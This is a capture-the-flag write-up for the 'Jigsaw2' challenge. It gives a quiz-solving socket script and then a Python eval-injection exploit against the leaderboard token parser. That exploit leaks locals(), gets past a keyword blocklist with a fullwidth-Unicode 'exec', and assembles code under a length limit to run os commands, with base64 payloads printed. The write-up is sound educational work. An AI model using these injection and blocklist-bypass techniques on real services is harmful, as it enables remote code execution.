

# Jigsaw2

As for Jigsaw1 last year, the goal of this challenge is to answer a series of questions. I wont give any details for parts 1 to 3.



## Jigsaw2 1/4, 2/4 and 3/4

Note that this script fails something like 5% of the time so I didn't bother fix it.

```python
import socket,os, time

os.chdir(os.path.dirname(__file__))


con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.setdefaulttimeout(10)

addr, port = "instances.challenge-ecw.fr", 41115

con.connect((addr, port))

print(con.recv(1024).decode())

print(con.recv(1024).decode())

rep1 = "yes"
con.send(rep1.encode())

print(f"{rep1}\n")

print(con.recv(1024).decode())

rep2 = "42"
con.send(rep2.encode())

print(f"{rep2}\n")

prev = con.recv(1024).decode()

print(prev)

### Question 3.

def q3(prev):

    prev = prev.split(":")

    nb = ord(prev[1].replace(" ", "").replace("\n", "")) - 97
    coeff = 1 if "after" in prev[0] else (-1)
    nb = (nb + coeff) % 26
    nb += 97

    rep3 = chr(nb)
    return rep3

rep3 = q3(prev)

con.send(rep3.encode())

print(f"{rep3}\n")

prev = con.recv(1024).decode()

### Q4

print(prev)

def q4(prev):
    colors = ["red", "green", "blue"]

    prev = prev.split(":")[1].replace(" ", "").replace("\n", "").split(",")

    if prev == ["0", "0", "0"]:
        rep4 = "black"
    elif prev == ["255", "255", "255"]:
        rep4 = "white"
    else:
        rep4 = colors[prev.index("255")]
    
    return rep4

rep4 = q4(prev)

print(f"{rep4}\n")

con.send(rep4.encode())

prev = con.recv(1024).decode()

### Q5

print(prev)

prev = con.recv(1024).decode()

print(prev)

rep5 = f"{rep1},{rep2},{rep3},{rep4}"

print(rep5)

con.send(rep5.encode())

prev = con.recv(1024).decode()

print(prev)

### Q6

def q6(prev):
    question = prev[prev.index("question(s)") + 11:prev.index("using")].replace(" ", "")


    rep_list = []

    for n in question.split(","):
        rep_list.append(eval(f"rep{n}"))

    rep6 = ",".join(rep_list)
    return rep6

rep6 = q6(prev)

print(rep6)

con.send(rep6.encode())

prev = con.recv(1024).decode()

print(prev)

### Q7

def q7(prev:str):
    
    question = prev[prev.index(":") + 2:]
    
    corresp = {
        "Do you wanna play a game?" : lambda x:"yes",
        "What is the meaning of life, the universe, and everything, according to Deep Thought?": lambda x:"42",
        "Easy question, Which letter comes" : q3,
        "Can you tell me what color is :" : q4,
        "I forgot everything. Send me back your answers to questions 1 to 4, separated by commas.": lambda x: rep1+","+rep2+","+rep3+","+rep4,
        "I did not understand. Can you repeat your previous answers for question(s)" : q6,
    }
    
    for cond, action in corresp.items():
        if question.replace(" ", "").lower().startswith(cond.replace(" ", "").lower()):
            return action(question)

rep7 = q7(prev)

print(rep7)

con.send(rep7.encode())

prev = con.recv(1024).decode()

print(prev)

prev = con.recv(1024).decode()

print(prev)


### Q8


def decode_braille(line):
    ascii_verion = "abcdefghijklmnopqrstuvwxyz?!1234567890"
    braille_version = "⠁⠃⠉⠙⠑⠋⠛⠓⠊⠚⠅⠇⠍⠝⠕⠏⠟⠗⠎⠞⠥⠧⠺⠭⠽⠵⠦⠖⠁⠆⠉⠙⠢⠋⠛⠓⠊⠚"
    assert len(ascii_verion) == len(braille_version)
    
    newline = ""
    for letter in line:
        if letter in braille_version:
            newline += ascii_verion[braille_version.index(letter)]
        else:
            newline += letter
    
    return newline

def decode_morse(line:str):
    ascii_version = "abcdefghijklmnopqrstuvwxyz?!:.,ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    morse_version = ".-/-.../-.-./-.././..-./--./..../../.---/-.-/.-../--/-./---/.--./--.-/.-./.../-/..-/...-/.--/-..-/-.--/--../..--../-.-.--/---.../.-.-.-/--..--/.-/-.../-.-./-.././..-./--./..../../.---/-.-/.-../--/-./---/.--./--.-/.-./.../-/..-/...-/.--/-..-/-.--/--../-----/.----/..---/...--/....-/...../-..../--.../---../----.".split("/")
    
    decomposed_line = line.replace('\n', '').split(" ")
    
    newline = ""
    for letter in decomposed_line:
        if letter in morse_version:
            newline += ascii_version[morse_version.index(letter)]
        elif letter == "/":
            newline += " "
        elif letter in "012345678.9":
            newline += letter
        elif letter != " ":
            newline += f"ATTENTION>{letter}<ATTENTION"
    
    return newline
    
def q8(prev):
    if "/" in prev:
        rep8 = decode_morse(prev)
    else:
        rep8 = decode_braille(prev)
        rep8 = rep8.replace(" ", "").replace("⠀", " ")
    
    return rep8.split(":")[1][1:]

rep8 = q8(prev)

print(rep8)

con.send(rep8.encode())

prev = con.recv(1024)

print(prev)

### Q9

with open('test.png', 'wb') as f:
    f.write(prev[3:])

from pyzbar.pyzbar import decode
from PIL import Image

def q9():
    decocdeQR = decode(Image.open('test.png'))
    rep9 = decocdeQR[0].data.decode('ascii')
    return rep9

rep9 = q9()

rep9 = rep9.split(":")[1][1:].replace("\n", "")

print(rep9)

con.send(rep9.encode())

prev = con.recv(2048)

print(prev)

### Q10


with open('test.png', 'wb') as f:
    f.write(prev[4:])
    
    
def q10():
    decocdeQR = decode(Image.open('test.png'))
    rep10 = decocdeQR[0].data.decode('utf-8')
    print(rep10)
    if "/" in rep10:
        rep10 =  decode_morse(rep10)
    else:
        rep10 = decode_braille(rep10).replace(" ", "").replace("⠀", " ")
    print(rep10)
    rep10 = q7(rep10)
    print(rep10)
    return rep10

rep10 = q10()

con.send(rep10.encode())

prev = con.recv(1024).decode()

print(prev)

print(con.recv(1024).decode())
```

Example of output :

```
Welcome ! If you want to leave alive, you'll have to answer correctly to all my questions !

1. Do you wanna play a game?

yes

2. What is the meaning of life, the universe, and everything, according to Deep Thought?

42

3. Easy question, Which letter comes before : x

w

4. Can you tell me what color is : 0,0,255

blue

Congratulations for the first steps. Your first flag is : ECW{J1GS4W_R3TURNS}

5. I forgot everything. Send me back your answers to questions 1 to 4, separated by commas.

yes,42,w,blue
6. I did not understand. Can you repeat your previous answers for question(s) 2,3 using the same format ?

42,w
7. Just to be sure it wasn't luck, random question time : What is the meaning of life, the universe, and everything, according to Deep Thought?

42
Well done ! Here is your flag : ECW{N0T_SC3R3D_Y3T} 

8. ⠎ ⠑ ⠝ ⠙ ⠀ ⠍ ⠑ ⠀ ⠃ ⠁ ⠉ ⠅ ⠀ ⠞ ⠓ ⠑ ⠀ ⠋ ⠕ ⠇ ⠇ ⠕ ⠺ ⠊ ⠝ ⠛ ⠀ ⠺ ⠕ ⠗ ⠙ ⠀ : ⠀ ⠁ ⠊

ai

b"9. \x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x01r\x00\x00\x01r\x01\x00\x00\x00\x00\xc0_l\xa4\x00\x00\x01\xc8IDATx\x9c\xed\xdaMn\x830\x10\x05\xe0'q\x00\x8e\xc4\xd59\x12\x07@\x9a\xc2\xfc\xd8\x0eP\xb5\x95\xb2\xe8\x8b\x9e\x17$\x0e_\xb2\xf1\xd8\x1e\x0f\x81\xfd\xa9\xad\x90\x97\x97\x97\x97\x97\x97\x7f\x93G\xb6\xc9\xb0xw\xde\xcf\x1b;\xb0luo\x91\xe7\xf5\xde\xb1\xed\xf4\xc7\xc5\xd6\xd9\xf2\x9d\xf9\xa5\x11yR\x7f\x0e{\x00\x8f\x02K\x1f\x97\x16(\xf2\xec\xde\xa7vD\xc1\xea\x93^\xfe\xa3|Np\x0f\x05\x93\xff\x18\xef/\x1e\x05\xc8\xf5\xdc\xac\xfc@\xe49\xfd\x90\x8fm\x97\xcbO\xf9\x9b\xfc\xff\xf7\xbd\x1d\xa9v\xbd\xf5\xc8\xb84yJ\xef\xc3~t\xce\xcb\x9c_\xf2\xf0\xe8;\xf7}\xfd\x97\xe7\xf2\xb1A{\x16\xb6\xa2\xb7)\x8e\xcf\xf2\xc4>w\xe9\n\x80\x9c\xf4[fa\x11-&O\xebs[\x0e\x85:/G\xbd\xab}]\x9e\xd6\x9b\xe7\xd6>\xcbc\xec}y\x8f\xa2\xa6\xff\xc6\xe5<%\xcf\xe5s\xbf\x9e\xfb\xc9\nme\x9f\xe4\xf9=\xea\x9eo\xd0\x99\x94\xf5v\xdb\xdf\xe5\xb9\xbc\xaf\xdd\x18\xe2\xc1\x8fR\xf5\xd9\xc3\xfa/O\xe6\xcdjo\xae\xa7\x88\xf9\x1b{&\xe2\xf2\xbc>\xa7\xfal-\xe9\xc6\x90\x94\xf5\xa2\xa6<\xa7\xafzH[\xcf\x01T\xf9\x1a\xf8&?\x97\xa7\xf1/\tveac\x17\xd7z\xb5<\x95\xcfP@+uM/\xf9\x18\xae\xe7/y.\xdfZ\xdc^Zw\xb1\xa7|L\x9e\xcb\x0f\xc3\x8e\xfa\x97Gn\xda[\x05\x8a<\xb1\x8f\x00\x18\x1e\x10\x8fU\x90\xe1\xa0%O\xeak\xec+\xd5\xde1\x14E\x96\xc7|[\x9e\xd0\xf7I_\xa1P\x0f%\x9e\xe3A\x9e\xcc\xc7\xf3\x08\xb3\xb6\x8aWd\xc83{\x7f\xa9\xf9\x1e\xe7\xa9~\xa3?y\x92\xe7\xf4\xd9<\x1ej\xd2\xb7\xf2\xa6\xd9\xad\xfe)O\xe5\x7f\xdd\xe4\xe5\xe5\xe5\xe5\xe5\xe5\xdf\xe0\xbf\x00\x1e\xef\xcdB\xa3\x9aEM\x00\x00\x00\x00IEND\xaeB`\x82"
AI
b'10. \x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x03\x02\x00\x00\x03\x02\x01\x00\x00\x00\x00\xf2\xc7L\x15\x00\x00\x07\x9bIDATx\x9c\xed\x9aQ\x8e\xac8\x0cE-\xb1\x00\x96\xc4\xd6kI\xb5\x00\xa4LW\xeck\x1b\xba\xf5\xe6c\xd4\xe4it\xf2A\x11H|\xf2\xc3\xcd\xb5S6~\xb9\xbd\x0c\x02\x04\x08\x10 @\x80\x00\x01\x02\x04\x08\x10 @\xf8\x9f\x12,\xda\xf6u\xb7\x9ff\xc7{\xfb<>M\xa3\xa2;\x87\x8c\xd7>\xa2{\xccg\xb3\xfb\xb6\xcf4]f; @\x80\xb0\x8a0;c\xc6\xfd\xba\x880_|a^_\xc3g\x0c]>\x98\x19d\x1f1\xf8\xb5\x17\xab\xe6B\x80\x00a\x15\xc1\xbf\xf7I\xb0.\x0e\x9f\x99\x9a\x1e21RN,\xdb\x1c\xec\xd3\xe6\x12\xa7\x00A\x80\x00a=a\xde\xb9$\x1c\x92\x89\x88\xab\x17%\x1d\x93\x1a\xcff4\x89\x08\x04\x08\x10\xfe\x1a\x82[|\xab\r_J\xe2N~\xb6=f\x94\xc4\xc8\xd3o\x10 @\xf8;\x08\xf3\xe7\xad\xe0\xfd\xf37\xd3\xdb\xb8\x0b\x13?N\xad\xe9\xd2\xfd\xd7\xfc\x01\x02\x04\x08\x0f\x10\xa2\xe9\xa3\xffo\x17E\x83\x00\x01\xc2*B\xb5\xd0\x85\xb4\x03\xaf9\xf42\xc9\xaa\x9e\xfey\x1bK\xbct[\x83\x00\x01\xc2\x02B\xcc\x9c\x81f9m\xcf\x83\xb2=\xdf\x96\xbb\xaf\x04\xc0cD\x020\xc6-\x01\x80\x00\x01\xc2*B\xc4\x1d\xe3f\xe25j\x1a\xf6S\x9b{\x8d\xfbl\xfd\xb1\x1c\x9d\x8f{{\x17\x1f\x02\x04\x08\xcf\x13<\xa4\xdc\xbd\np\x96o\xcf<\x0f\xb3\xa8\xc7\x05:\xb5b:\x81\xfd\xcc\xca\x9c\xdd\xf2\x07\x08\x10 <H\x18#O\xb6sT\x85\xd4Yx\x8ck\xc0\xb4\xfdm%\x1e%\xf5\x03\x02\x04\x08\x0b\x08u\x00\xd6>\xff\x97e\xd76\x7f\x16[\xbf\x1f\x85\x9d\x1d\x1d\x0b\xdb\xae+\x81\x00\x01\xc2*\xc2\xa7\x1dCv\xe0\x87\x9c\xfc\xb2\xffo\xa9\x10\xd9\x9d:3\xa7i\xb1z\x0b\x01\x02\x845\x848\xbb\xd6\xb1WI\xc7%;\xaf\xfd_C"\x15\xe8\x7f\x81\t\x9f\x00\x01\x02\x84e\x84\xfd\x92u\xbfn\xff\x1ew\x8bpZU\xdc\xc4Wy\xce.]\t\x0b\x04\x08\x10V\x12\x8e\xa6\x1a\x16\xbb~L\x97V\xd4\xffV\xfa^\x7f\x9d\xa1\xb7\x10 @XH\xc8\xcf\xdf\x1fKDZ\xc6\xde\x93\xf0\xec\xca\x1dTQ.<\xc1\x0f^\x03\x02\x04\x08\x8f\x11\xc2\x92\xfb\xccn\xf6cR\x01\xad<\x81\xa6\xb9\xb04c\x1f]\x08\x10 \xac$\xa8\xb0\xe6ur\xb3\xa8\xac\x87.t\xef\xef\xf58w\x07#\xb3\x80w\xd5\xed\x94\xc5\x0f\x08\x10 ,"\xf8\xbbT\r=\xdb\xd2\xba\xab\x00\x17\x97\xd3JX\x94\x9d\xcb\'\xdc\xd2\x03\x08\x10 , \x8c1R\r\xdc\x9cK\rz:^\xde_N~x\x0cY\xfc\\\x98\xf4\x03\x02\x04\x08k\x08\x96\x85\xf1\xae\x15c\xf4\xe0\xa5\x1aG\x1d\x8f\xedUw\xaf\xb7\xe6\xeb\xbc\xe9\x12\x04\x08\x10\x9e#L\xd5\xd0\x01X)\xc4i\x11m\xefr\xe2\x12S\t|\xf0\xfb\\e\x0b\x10 @XCP\'\x83\xbfU\x85\xb3\xbd\xc6\x9fJ\xe0\xe5\xf8\xbd\xa5Y\x08\x01jK\x84\x00\x01\xc2*\x82j\xe2\xda\xd7\x15-5`\x8c\x8b\xbb\x8fn\x8a\xc3\xc8\xcc\xc0[\xf3\xfe\x10 @x\x9c\x10O\xae\x81\xb2\xc4\xa6S0IB\x15\xdac\x9aE\xb7-\xd1\xa5\x03\x02\x04\x08\x8b\x08/S\x8c\xdc\xeb#xYw\xc5\x98\xad2\xf6\xea\xfa\x9d\'\n\xa9\x1f\x10 @XA\x98\x9f\xfa\x91\xdf{8\x01\xb9\x83\x97\x08\xbd\xd86\xa7\xefq\xa9,\xa0\xfb\x04\x08\x10 \xac"\xcc\xcf\xbf&}Zl\xee\x97B{\x0c\xbe\xa4\xe8>8s\xfc\xb2\x03\x1a\x0c\x01\x02\x84\xe7\t\x99p\xb7\xcb\xa1-\xbd\x17\xe0\xf6:\x0f\x0bu\xa9\xb9\xb1\xce4\xfb\x10 @XFps\xee\xe3\xa3\xc5\xae/\xd7~\x0b\x19\xee\xe0\xf3\xe8\x18r\x02\x9f\xae\x80\xdft\t\x02\x04\x08\x0f\x12\xfcd,\xdb\xd1\xaa\xe8\xaa\xb8ev\x1eC\xde=;\xaf\xee%\n\x04\x08\x10\xd6\x10\xeaI\xc5Up]\xe6\x0e?\x87X\xe6\xe4\xae)\x8d\x1fY\x00\x04\x08\x10\x16\x13\xfc(\xfb}\xcb\xc4\x93`\xd6\xeb\xee\xc7\xe8J\xe2v\xa0\xbb\xfb[z\x0f\x01\x02\x84\x05\x04m\xfd\x9e\xa7\xcfgn\xd8e\xf1\x83\x90/r\x9a0[\xd7\x9eV|\x87\x00\x01\xc2\x02Bd\xe7\xfa\xfc\xb30^r\xd2\xdc\xfd\xa1T\xa0\xfe\x0c\x13J\x92-\xd7\t\x01\x02\x84%\x04\xff\xc0\xf7\xdb\xdd\xd9\xde\xc6E\xffyq\xc7\xf0\xb2<K+\xef\xdf\x12x\x08\x10 \xac!D\x89\xdc\xcf\xb9\xc2\xba\xc7\xa8wh@\xd8\xf9\x1aw\r\x9e\xee\xbe\xfe\x8czq\x02\x10 @x\x9e\x101\xf4\x9f\xd3P\x8dS\x04\xb3v\x1e\xd6l\x7fvCD.\xf58\x08\x10 ,!\x8c2\xe7^]Kj\x89\xc3\x1c\x96\xa7j\xd3\xf1\xd7\xea\xfa\xd6\xbf\xe9\x19\x04\x08\x10\x16\x11d\xce\xab\x8a.\xd5\x98\xac\xf1\x96\x92xf\xef\x8b\xb8T\xd1K+\xf2hM@\x08\x10 \xac!\xb88X\x85\xacQ{/\xa0\x07\xcbr\xc8\xc5\xdd+\xd4O\xaa\x01\x01\x02\x84\x87\x08\x97\x99\xc9\xb2\x1c\xea\x95\xf5d\xd9\x8c\xbb]\xc5\xa6\xaa\xed[\xc6\x83\x00\x01\xc2\x1a\x82*n\xdb\xb7\xd3n\x9f\xbeg\xee\xfe\xb6\xdc\xff%"\xbe\x88\x91\x058\x8b\xb7?\xe8\x12\x04\x08\x10\x9e!\x84\x89\xd7\x9dL|\x06\x97B\xd4"\xea\xaf-.1\xfd\xad\xfd\xe0\xee!@\x80\xf00!>\xfa\x11u\xf2S[z\n\x86\xc9\x04\xb8td\xda\xde\xb6\xfe\xf4\t\x91#@\x80\x00a\x1d!\x1eh\x0f\xd7\xe5\xd3F\xda~\xa9\xc1i\xa1.\xf3\xd9H\x9dQ\x16\x1fw\x10 @XD\xb8W\xe1"c\xef6\xbd.-\x8b\x1f\xb2\xf8J\xea{\xee\xfe\xc7:\x1f\x04\x08\x10~\x93\xe0\x98\xf9\xe5\xfb6?[\xd6\xc9\x87R\xf4\xe2\x8fP\x92M\xd4=u\xc6K\xf3ww\x0f\x01\x02\x84\'\t\xaf{pe\xecG&\xeb\xcd\xba\x97$()\xb04\x01~\t \x04\x08\x10\xd6\x10"\xd0\x88\xef\xdd\xac<A\xc5\xd8\xb5\x92O\xf3i\xce\xf2\x90C-\x8f\xd6\x06\x04\x08\x10\x16\x11\xfcq\x96\xd3\xa2\xe2\xe6\xa3N\x1d\x8a\xa5\x88\x14\xda\x87\xe4\xea\xc2\xdd[\xa6\xfc\x10 @XDx\xa5\x10d&.coV\x9a\xa2\xbb|\xebs\xe3\x99\x07p\xc7\xff\xdd\xddC\x80\x00\xe19B\x19{9\xf4\x90\x8ez\xa6\xda\xb9EQ\xce\xa4$\xf2\x0es\x88\xba\xbe\x1c\x08\x10 ,"\xa8E%M\xaa\xd1\x93\xf5\x08ii\xec\x1bP\x9e\xa0\x95\xe7v\x08\x10 ,$(\xdavI\xc2-N\xb1\xa5\x01!\t\xf1B\x8e\xa1*s\xb5\xd2R\x17\x08\x10 \xac!\xf8\x97_y\xfa\x185\xb39~o\xfb\xd9\x94\xc4\x03e\xf1NY\xfc7w\x0f\x01\x02\x84\'\t.\x181\xa0\xe7\xe4\x17;0\xd2,hp\xb7\xf3\xaa\xbb\x87c\xf8A\x97 @\x80\xf0\x14\xc1?\xf1^;\x17F%\xb6W\x9d\x96I]BS\xdc"l\xed\x18\xad\\\x04\x04\x08\x10\x16\x11B&\xf4\xf9\x87B\xb4-\xbd\x9c@e\x01W\x9di\xf58\x8f\x07\x01\x02\x84E\x84j?\xcaD\xd6\xe3\xe6$\x8b\xf30\x19\xfb\x18\x92\xb6ad\x17\x02\x04\x08\x8b\x08\xa5\x01\xfa\xe3i\xcc\x1c\xcd\xce\xe7\xbfZ\x8e\x96\x9d\x97VD\xb7\xac\x04\x04\x08\x10\xd6\x11\x8e\xf9\xf3\xd6\xa4f\xdd\xe7\xf4K\xc5M\x9ar\x9a\x12\xf3\x9b\xd9\xefw\x10 @XC\x98\xdb|V\xdc\x1aK\'c!\x1d\xd9\xc2\x18d\x15\xee\xad\xa3\xb56\x04\x02\x04\x08\xcb\t\x95\x7f\xebR\x8e\x7f\xb4\x8bdb\xf3K\x99\x80\xb9\xa6\xb0\r\x10 @\xf8K\x08n\xce\xdf1\xd4Kq3Fv+n\xbc\xb8\x9e\x91U\x83\x00\x01\xc2\x12\xc2\x88\x90\xfd\xd8+\xefbfw\x02\xb7\x04\xa0u\xbd\xfd!c\x87\x00\x01\xc2\xef\x13\xa2\x95\xbb\x9f\x85\xf1r\x02\xf5\xac4%\x17!\xefP\xdd\xb6l\x08\x10 , \xfcb\x83\x00\x01\x02\x04\x08\x10 @\x80\x00\x01\x02\x04\x08\x10\xfe\x87\x84\x7f\x005\x04\xab\x7fmU\x83\xaf\x00\x00\x00\x00IEND\xaeB`\x82'
⠁ ⠝ ⠎ ⠺ ⠑ ⠗ ⠀ ⠞ ⠓ ⠑ ⠀ ⠋ ⠕ ⠇ ⠇ ⠕ ⠺ ⠊ ⠝ ⠛ ⠀ ⠟ ⠥ ⠑ ⠎ ⠞ ⠊ ⠕ ⠝ ⠀ : ⠀ ⠑ ⠁ ⠎ ⠽ ⠀ ⠟ ⠥ ⠑ ⠎ ⠞ ⠊ ⠕ ⠝ , ⠀ ⠺ ⠓ ⠊ ⠉ ⠓ ⠀ ⠇ ⠑ ⠞ ⠞ ⠑ ⠗ ⠀ ⠉ ⠕ ⠍ ⠑ ⠎ ⠀ ⠁ ⠋ ⠞ ⠑ ⠗ ⠀ : ⠀ ⠁

answer the following question : easy question, which letter comes after : a

b
You've done it ! The last flag is : ECW{R4ND0M_ST3G4N0}
```

The file can be found [here](scripts/jigsaw-3-4.py)

## Jigsaw2 4/4

After finishing the challenge, the program asks for our username. If we give one with this litle code

```py
username = "walbre"

print(username)
con.send(username.encode())
time.sleep(1) # the server seems to do multiple send, so we wait to have everything in the same

print(con.recv(4096).decode())
```

```
b"You've done it ! The last flag is : ECW{R4ND0M_ST3G4N0}\n"
b'Please give your username for the leaderboard\n'
walbre
Welcome walbre. Your score is saved !
Your token is eyd1c2VyX25hbWUnOiAnd2FsYnJlJ30=

Leaderboard :
User |   Completion time
walbre:  1.0263433456420898 seconds
```

We can see that the username is stored in the database of the program. The program also returns a base64 encoded token. If we decode it using [cyberchef](https://gchq.github.io/CyberChef/), it gives

```
{'user_name': 'walbre'}
```

If we have a token, that meens we can maybe use it, what if we try sending it as a username.

```py
username = "eyd1c2VyX25hbWUnOiAnd2FsYnJlJ30="
```

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOiAnd2FsYnJlJ30=
New score 1.0456857681274414 is not better than current score 1.0263433456420898
Leaderboard :
User |   Completion time
walbre:  1.0263433456420898 seconds
```

We can see that the program reconize the token, it means he somehow extracts the informations from this token.

If we try to send the token

```py
{'user_name': 7*7}
```

The program answers with

```
No existing score for 49
Please give your username for the leaderboard
```

Which means 2 things : 
- The 7*7 somehow got executed

- The program asks anothe time if the username is considered invalid.

Let's try to see if we can use a library like `os` to execute some commands.

For that, I'll send the payload

```py
{'user_name': os.popen('ls').read()}
```

And we have this answer

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOiBvcy5wb3BlbignbHMnKS5yZWFkKCl9
token too large
Please give your username for the leaderboard
```

So there seems to be a limit to how many characters we can send.

After testing a litle bit, it appears that the limit is set to 27 characters before encoding the token.

But there's another problem, if I send

```py
{'user_name':os.popen('a')}
```

The program replies with

```
eyd1c2VyX25hbWUnOm9zLnBvcGVuKCdhJyl9
blocked str
Please give your username for the leaderboard
```

Which means there's also a blacklist of certain strings.

To be sure, let's try getting information on declared variables and declared functions.

There are 3 main functions native to python that fill this role : 

- vars() : returns the variables of the given object, if nothing given, equivalent to locals()
- locals() : return all local varaibles
- globals() : return declared objects (functions / varaibles) in the global scope

So naturally, I tried getting the local variables first

```py
{'user_name':locals()}
```

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOmxvY2FscygpfQ==
An error occurred: Error binding parameter 0 - probably unsupported type.
```

After using the 2 braincells that were left, I figured that it couldn't return a dictionary. So, I tried converting it into a string.

```py
{'user_name':str(locals())}
```

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOnN0cihsb2NhbHMoKSl9
No existing score for {'token_len_max': 27, 'token_len': 27, 'forbidden_words': ['import', 'exec', 'eval', 'os', 'sys', 'popen'], 'unserialized': {}, 'identifier': "{'user_name':str(locals())}"}
Please give your username for the leaderboard
```

This result confirmed that I was right on the max length of 27, it also gives us an intersting variable, `forbidden_words`, which will be of great help to try bypassing the blocklist.

After that, I wanted to try seeing how the backend was done. So I .... tested .... tested .... and tested more

After that, I concluded that if we send a payload that starts with `{` and ends with `}`, it's counted as a token, then, the token is `evaluated` to create the varaible `unserialized`. If an exception is raised, the program just creates a token and returns it. If not, he tries to find the key `user_name`, if this key exist and is valid, it updates the data, else another propmt appears.

I also tried to change `forbidden_words` with a prompt, and then get it with `local` in another prompt.

```py
{5:forbidden_words.pop()} # only possible to modify lists in eval because no affectations are allowed
{'user_name':str(locals())}
```

For that, I used the code

```py
username = "ezU6Zm9yYmlkZGVuX3dvcmRzLnBvcCgpfQ=="
print(username)
con.send(username.encode())
time.sleep(1)

username = "eyd1c2VyX25hbWUnOnN0cihsb2NhbHMoKSl9"
print(username)
con.send(username.encode())
time.sleep(1)

print(con.recv(4096).decode())
```

```
b'Please give your username for the leaderboard\n'
ezU6Zm9yYmlkZGVuX3dvcmRzLnBvcCgpfQ==
eyd1c2VyX25hbWUnOnN0cihsb2NhbHMoKSl9
username not found
Please give your username for the leaderboard
No existing score for {'token_len_max': 27, 'token_len': 27, 'forbidden_words': ['import', 'exec', 'eval', 'os', 'sys', 'popen'], 'unserialized': {}, 'identifier': "{'user_name':str(locals())}"}
Please give your username for the leaderboard
```

We can see that it did nothing which means the variable is localy reset at each input, so, the imput is likealy done in a function.

To sum up all my discorvries, I decided to do an imitation of what I think was ran on the backend

```py
def andle_user_input():
  token_len_max = 27
  identifier = connection.recv(1024).decode()
  forbidden_words = ['import', 'exec', ...]
  token_len = len(identifier)
  if token_len > token_len_max:
    connection.send(b"too long")
    return False
  for word in forbidden_words:
    if word in identifier:
      connection.send(b"banned word")
      return False
  if identifier.startswith("{") and identifier.endswith("}"):
    try:
      unserialize = eval(identifier)
      if not "user_name" in unserialize.keys():
        print("user not found")
        return False
      else:
        find_user(unserialize["user_name"])
        return True
    except:
      pass
  create_user(identifier)
  return True

retour = False
while not retour:
  retour = andle_user_input()
```

So the objectives now are to :
- write in the globals if possible
- bypass banned words to use os and popen

But the first problem is that we can't write because eval can't do affectations

```py
>>> eval("a=3")
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "<string>", line 1
    a=3
     ^
SyntaxError: invalid syntax
```

Sooo, we need exec, which means we firstly need to find a way to bypass the blacklist.

After a bit of research, I found something interesting. If you search `unicode e` on google, you'll find out that there's multiple e, for example, `ｅ` and `e` aren't the same, but for python 

```py
>>> "ｅ" == "e"
False

>>> ｅxec("z=555")

>>> z
555
```

Ok, so we found a way to bypass the exec, so we only need to execute our payload. Well, saying "only need" seems a litle bit misplaced considering we only have 27 characters.

My plan is simple writting characters one by one in a varaible called `a` and then execute `a` and store the result in `b` and finally show b.

Firstly, let's define the payload that will be executed,
```py
import os
b = os.listdir()
```

In python, the rule is that if we are in a functions and we do something like `a = 5` then `a` will be local, but if we do `global a;a = 5`, `a` will be a global varibale, accessible across all program. But if we need to change this varaible, we need to re-use `global a` because doing something like `global a;a=5` and after that `a+=5`, will define 2 varaible, the local one = 10 and the global one = 5.

After some troubleshouting it appears that this also applies to modules, so if we want to import os, we need to execute `global os;import os`.

So, the payload needs to be changed a litle to match what I just said.

```py
global os
import os
b = os.listdir()
```

Let's do a list of all the queris we could need 

```py
{5:ｅxec('global a;a="gl"')} # intialize a new varaible with the string "gl"
{5:ｅxec('global a;a+="o"')} # add "o" to the variable a
{5:ｅxec(f'global a;{a}')} # execute a, don't forgoet to end with ()
{5:ｅxec(f'global b;b={a}')} # execute a and affect the result to b
{"user_name":str(a)} # print a (to debug)
{"user_name":str(b)} # print b
```

Let's execute our listdir, I'll put the intersting part of the program bellow, you can find the full file [here](scripts/jigsaw-listdir.py)

```py
### global os;import os

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJnbCInKX0=") # a = "gl"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYiInKX0=") # a += "b"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

